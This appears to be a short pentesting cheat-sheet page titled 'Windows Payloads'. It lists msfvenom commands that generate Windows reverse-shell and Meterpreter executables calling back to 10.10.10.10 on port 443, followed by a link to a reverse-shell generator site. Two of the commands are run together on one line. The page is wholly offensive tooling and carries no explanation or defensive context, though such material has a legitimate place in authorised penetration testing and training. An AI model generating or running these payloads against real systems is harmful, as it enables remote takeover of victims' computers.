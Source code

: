 ## Windows Payloads
## 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > reverse.exemsfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > reverse.exe

msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > reverse.exe
```

### Recursos
https://www.revshells.com
